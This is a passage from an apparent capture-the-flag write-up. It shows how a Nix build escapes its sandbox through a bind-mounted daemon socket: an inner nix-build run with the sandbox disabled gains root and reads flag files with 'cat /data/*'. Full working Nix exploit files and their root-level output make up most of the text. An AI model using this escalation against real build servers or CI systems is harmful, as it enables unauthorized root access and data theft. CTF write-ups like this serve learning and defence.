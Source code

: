 But, why is there a socket in there? Let's try invoking another build inside
our build, maybe? And, based on the assumption we must be trusted user (since I
can't think of any other reason interaction with the bind-mounted socket would
be different from inside the sandbox), let's try just turning off the sandbox
in the inner build and see what happens?

```nix
let
  nixpkgs = builtins.fetchTarball {
    url = "https://github.com/nixos/nixpkgs/archive/6e2f00c83911461438301db0dba5281197fe4b3a.tar.gz";
    "sha256" = "sha256:0bsw31zhnnqadxh2i2fgj9568gqabni3m0pfib806nc2l7hzyr1h";
  };
  pkgs = import nixpkgs {};
  # dont worry about the contents quite yet
  hax = pkgs.writeText "hax" (builtins.readFile ./stage2.nix);
in
pkgs.runCommand "meow" { buildInputs = [ pkgs.nixVersions.nix_2_13 ]; PKGS = pkgs.path; } ''
  id -a
  nix-build --option sandbox false --extra-experimental-features 'flakes nix-command' --store unix:///tmp/daemon ${hax}
''
```

and `stage2.nix`:

```nix
let
  pkgs = import (builtins.getEnv "PKGS") { };
in
pkgs.runCommand "meow2" { } ''
  echo MEOW2
  id -a
''
```

This outputs:

```
this derivation will be built:
  /nix/store/iynjhk5a5ymp26cbyp22l15ix4lrp2f6-meow.drv
building '/nix/store/iynjhk5a5ymp26cbyp22l15ix4lrp2f6-meow.drv'...
uid=1000(nixbld) gid=100(nixbld) groups=100(nixbld)
this derivation will be built:
  /nix/store/cyw7kaqazdpgpna0jmaw7cw5348srvv3-meow2.drv
building '/nix/store/cyw7kaqazdpgpna0jmaw7cw5348srvv3-meow2.drv'...
MEOW2
uid=0(root) gid=0(root) groups=0(root)
```

Welp, I am root. Change stage 2 to `cat /data/*` and we have a flag:

```
[user@nixos:~]$ cat >stage1.nix <<-'EOF'
> let
  nixpkgs = builtins.fetchTarball {
    url = "https://github.com/nixos/nixpkgs/archive/6e2f00c83911461438301db0dba5281197fe4b3a.tar.gz";
    "sha256" = "sha256:0bsw31zhnnqadxh2i2fgj9568gqabni3m0pfib806nc2l7hzyr1h";
  };
  pkgs = import nixpkgs {};
  hax = pkgs.writeText "hax" (builtins.readFile ./stage2.nix);
in
pkgs.runCommand "meow" { buildInputs = [ pkgs.nixVersions.nix_2_13 ]; PKGS = pkgs.path; } ''
  id -a
  nix-build --option sandbox false --extra-experimental-features 'flakes nix-command' --store unix:///tmp/daemon ${hax}
''
```